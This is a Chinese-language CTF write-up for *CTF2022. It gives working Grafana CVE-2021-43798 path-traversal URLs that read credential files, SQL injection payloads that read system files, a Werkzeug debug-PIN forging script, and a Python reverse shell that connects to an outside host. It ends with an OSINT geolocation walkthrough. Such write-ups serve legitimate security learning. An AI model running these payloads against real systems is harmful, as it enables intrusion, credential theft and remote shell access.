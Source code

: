 # [*CTF2022] WP


## Web

### oh-my-grafana

存在CVE-2021-43798
paylaod

```java
http://124.70.163.46:3000/public/plugins/alertGroups/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar/lib/grafana/grafana.db
```
有个加盐的密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/295f01dea01f4e52ab3ac68069f4bc8e.png)
再找找其他配置文件，反正任意文件读取用起来
![在这里插入图片描述](https://img-blog.csdnimg.cn/930291c6c4c741f381ba3e26a0195fc8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

```java
http://124.70.163.46:3000/public/plugins/alertGroups/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc/grafana/grafana.ini
```
拿到了密码
![在这里插入图片描述](https://img-blog.csdnimg.cn/82b8c21184204682afe468669ca0a9a7.png)

```java
# default admin user, created on startup
admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = 5f989714e132c9b04d4807dafeb10ade
```
进去后可以执行sql语句
![在这里插入图片描述](https://img-blog.csdnimg.cn/c9aa0cb6d46440f3930cc9f713b35c93.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_14,color_FFFFFF,t_70,g_se,x_16)

查一下表名
![在这里插入图片描述](https://img-blog.csdnimg.cn/edf641577d5f4bdbb4bf7ff11551eab3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
拿flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/8bee48f8e4964062b4781cacb03a8aeb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
### oh-my-lotto

主要思路就是：

首先是随便摸一个奖，然后在result路由里面获得了结果，是上一轮的

正常情况下，你再次去摸奖，他会wget不改变名字的去下载乐透结果，也就等同于更新一次乐透结果，也就是这个代码

```py
os.system('wget --content-disposition -N lotto')
```

但是在此之前，有这么一句代码

```py
lotto_key = request.form.get('lotto_key') or ''
lotto_value = request.form.get('lotto_value') or ''

os.environ[lotto_key] = lotto_value
```

这里我们可以操作lotto_key和lotto_value

那么就可以把path改掉，让他执行不了wget命令，这样的话，/app/lotto_result.txt就和上一局是一样的

这样的话，我们再把上一次的乐透结果传上去，这样就能判断相等，获取flag

```py
if os.path.exists("/app/guess/forecast.txt"):
    forecast = open("/app/guess/forecast.txt", 'rb').read()

if forecast == lotto_result:
    return flag
```

然后访问lotto路由拿到flag

注意有个坑，乐透结果之间是换行，所以文件构造的也应该是换行
![在这里插入图片描述](https://img-blog.csdnimg.cn/68792c8d3ae1435bbac4e1b5f4258e0e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)

### oh-my-note

admin:admin进入后台
在view note处存在sql注入，基本没有过滤，**而且开启了debug**
```java
http://124.70.185.87:5002/view?note_id=pt8q0tub5k59zh9b4hc5te6kdc6vjyn3%27
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b9069b7a99aa4ada802de544131fa299.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
开了debug，需要构造pin码，利用sql注入进行文件读取
payload如下    

```java
';create table fxz1(data text);#
读取mac地址/sys/class/net/eth0/address、/etc/machine-id、/proc/self/cgroup
```

load data 写入创建的表
/etc/machine-id一般固定
1cc402dd0e11d5ae18db04a6de87223d

```java
';LOAD DATA LOCAL INFILE "/sys/class/net/eth0/address" INTO TABLE fxz1;#
';LOAD DATA LOCAL INFILE "/proc/self/cgroup" INTO TABLE fxz2;#
```

查看结果

```java
' union select 1,2,3,4,(select(group_concat(data))from(fxz1))#
```

构造pin生成脚本

```python
#sha1
import hashlib
from itertools import chain
probably_public_bits = [
    'ctf'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    'xxx',#  /sys/class/net/eth0/address 16进制转10进制
    'xxxxxx'#  /etc/machine-id+/proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```
587-976-623
进去console用python反弹shell，到根目录执行/readflag
```java
import os,pty,socket
s=socket.socket()
s.connect(("101.35.***",8866))
[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/93964d8831cd4f9f9169e3296b24c020.png)

## Misc

### today

“I’m anninefour. I love machine learning and data science.
Flag is in my pocket!”
名字是anninefour，喜欢机器学习和数据科学，那么可以去各大机器学习平台社区搜搜这个人
在kaggle里面找到了这个人
https://www.kaggle.com/anninefour
绑定了一个推特
![在这里插入图片描述](https://img-blog.csdnimg.cn/ed746eaf33a8444e87dc404b1e2e518b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_18,color_FFFFFF,t_70,g_se,x_16)
到了一个图片
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba4164e376a54f7db8e1fcea3b503993.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_18,color_FFFFFF,t_70,g_se,x_16)
看到对面有一个农夫果品生鲜超市
去高德搜了一下，全称直接搜没搜到，搜一半农夫果品，发现集中在上海，貌似是上海连锁，而且图片能非常相似的对上
![在这里插入图片描述](https://img-blog.csdnimg.cn/b795de8e83794b70a225095a1eacac13.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_20,color_FFFFFF,t_70,g_se,x_16)
在上海区域搜农夫果品生鲜超市，只有一个能完全对应上名字
![在这里插入图片描述](https://img-blog.csdnimg.cn/23b9d1ded60e469c81fc875317dfb959.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_12,color_FFFFFF,t_70,g_se,x_16)
拍照的小区在对面，叫花山名苑
![在这里插入图片描述](https://img-blog.csdnimg.cn/e4fd407f9abf4f1c99be5ec8ff35ad04.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_17,color_FFFFFF,t_70,g_se,x_16)
在google地图评论里找到了flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/e1caf1c92ab248c3bf2b29067d901bf9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAaHVhbWFuZ2dn,size_12,color_FFFFFF,t_70,g_se,x_16)

